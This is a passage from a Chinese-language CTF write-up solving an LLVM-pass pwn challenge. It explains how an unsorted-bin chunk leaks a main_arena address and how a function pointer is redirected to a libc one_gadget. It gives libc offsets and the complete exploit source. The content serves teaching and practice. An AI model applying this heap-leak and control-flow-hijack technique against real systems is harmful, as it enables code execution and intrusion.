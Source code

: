 ```c
	run();
	return 0;
}
```

经调试发现，fakekey中关键操作前面的判断通不过，对关键地址没有任何影响：
```cpp
if ( *(_BYTE *)(*(_QWORD *)v75 + 16LL) == 13 )
  SExtValue = llvm::APInt::getSExtValue((llvm::APInt *)(*(_QWORD *)v75 + 24LL));
else
  SExtValue = 0LL;
```

由于getSExtValue的含义是get signed extended value，获得有符号扩展的数，推测与参数有关，既然是数，猜测参数对类型有要求：必须是一个整数。于是修改了fakekey的参数类型，再次尝试。

![](5.png)
成功通过判断条件。随后的getSExtValue函数确实返回了fakekey的第一个参数值，并将关键地址处的值加上了这个参数值。随后的run函数中就以该地址的值作为函数指针调用。由此，流程分析基本完成，思路逐渐清晰。

现在我们已知能够控制一个函数指针的值。本题给出的libc是2.27版本，可以使用one_gadget工具获取one_gadget，在此之后还有一个问题：如何获取libc的基地址并保存到这个地址中？要知道，我们能够任意修改key_chunk中值的唯二的方法是：①通过save函数的第一个参数修改；②通过fakekey函数的第一个参数修改。但是别忘了，key_chunk保存的是一个chunk指针，既然是chunk就有可能分配到原来是free chunk的chunk。如果这原来是一个unsorted bin chunk，那么fd指针处保存的不就正是main_arena处的地址吗？如果我们将save函数的第一个参数设置为'\x00'，由于memcpy函数拷贝的长度是根据字符串的长度来计算，因此save函数此时就不会覆盖这里的地址值，我们也就能够获取到main_arena中的地址了。以此为基础使用fakekey函数加上一个值让它指向one_gadget，这不就成了吗？

![](6.png)
这是程序遍历到B4ckDo0r函数的时候的bins情况，发现0x20大小的tcache bin中有7个chunk。可以先将这7个分配出来，然后就可以通过切割unsorted bin的方式拿到main_arena的地址。

在给出的libc中，main_arena的偏移为0x3EBC40，unsorted bin的链表头地址为0x3EBCB0。以下面的libc来计算偏移。当然由于笔者是在ubuntu 20.04上面调试，因此使用本机的libc计算偏移，看看能不能在2.31的环境下打通。

![](7.png)
在笔者的libc中，unsorted bin链表头地址为0x1ECBF0，one_gadget如下：
![](8.png)
于是有下面的脚本：
```c
#include <stdio.h>

void save(char* a, char* b){printf("123456");}
void takeaway(char* a){printf("654321");}
void stealkey(){printf("abcdef");}
void fakekey(long long a){printf("fedcba");}
void run(){printf("888888");}

int B4ckDo0r(){
	save("colin", "colin");
	save("colin", "colin");
	save("colin", "colin");
	save("colin", "colin");
	save("colin", "colin");
	save("colin", "colin");
	save("colin", "colin");
	
	save("\x00", "colin");
	stealkey();
	fakekey(-0x1090F2);
	run();
	return 0;
}
```
